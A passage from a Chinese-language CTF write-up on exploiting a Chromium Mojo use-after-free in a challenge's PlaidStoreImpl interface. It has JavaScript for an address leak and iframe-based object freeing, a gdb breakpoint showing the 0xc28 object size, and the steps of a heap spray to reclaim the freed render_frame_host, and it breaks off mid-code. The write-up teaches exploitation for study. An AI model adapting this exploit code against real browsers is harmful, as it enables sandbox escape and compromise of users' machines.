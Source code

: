 ```js
            renderFrameHostAddr = u64[i+1];
            break;
        }

    }

    if(vtableAddr == 0 ) {
        console.log("[-] no vaild addr found");
        return;
    }
    chromeBaseAddr = vtableAddr - BigInt(0x9fb67a0);
    console.log("[+] leak chrome base addr: "+hex(chromeBaseAddr));
    console.log("[+] leak reander frame host addr: "+hex(renderFrameHostAddr));
}
Leak();
```

### uaf 利用

`uaf`漏洞利用则主要是通过在代码中构建`frame`，并将`frame`中的`PlaidStoreImpl`对象返回，然后关闭`frame`释放`render_frame_host`指针，最后使用`PlaidStoreImpl`对象来使用`render_frame_host_`来实现`uaf`。

先要搞清楚`render_frame_host`对象的大小，该对象由`RenderFrameHostFactory`类实现，可以通过下面的断点来看该对象的大小，可以看到对象大小为`0xc28`。

```asm
b content::RenderFrameHostFactory::Create


	 0x555559075a52    mov    edi, 0xc28
   0x555559075a57    call   0x55555ac584b0 <0x55555ac584b0>
```

再来看看怎么触发`uaf`，主要步骤包括：

* 调用`document.createElement`创建一个子`frame`，在`frame`中绑定`mojo`，并将`plaidStorePtrList`赋值给`window`，然后返回；
* 在父`frame`中注册`"DOMContentLoaded"`事件的监听函数，调用`uaf`函数创建对应的`pipe`;
* 准备和`render_frame_host`对象大小相同的内存（`0xc28`），把它全都初始化成`0x41`；
* 在父`frame`中获取子`frame`的`plaidStorePtrList`；
* 调用`frame.remove()`，释放掉子`frame`，这样在`browser`进程中`render_frame_host`对象被释放；
* 调用`StoreData`函数去`browser`进程中申请`0xc28`大小的内存，这样会将被释放的`render_frame_host`对象内存申请出来。同时该函数也会调用被释放指针`render_frame_host_`中的虚表函数，触发了`uaf`漏洞。

```js
function AddFrame()
{
    let frame = document.createElement("iframe");
    frame.srcdoc =
        `<script src="mojo/public/js/mojo_bindings_lite.js"></script>
            <script src="third_party/blink/public/mojom/plaidstore/plaidstore.mojom-lite.js"></script>
        <script>
            async function uaf()
            {
                // step 1 register mojo in child frame
                let plaidStorePtrList = [];
                for(let i=0; i<0x200; i++) {
                    let p = blink.mojom.PlaidStore.getRemote(true);
                    await(p.storeData("xxxxx", new Uint8Array(0x28).fill(0x41)));
                    plaidStorePtrList.push(p);
                }
								// return the plaidStorePtrList to parent frame
                window.plaidStorePtrList = plaidStorePtrList;
                return;
            }
        uaf();
        </script>
```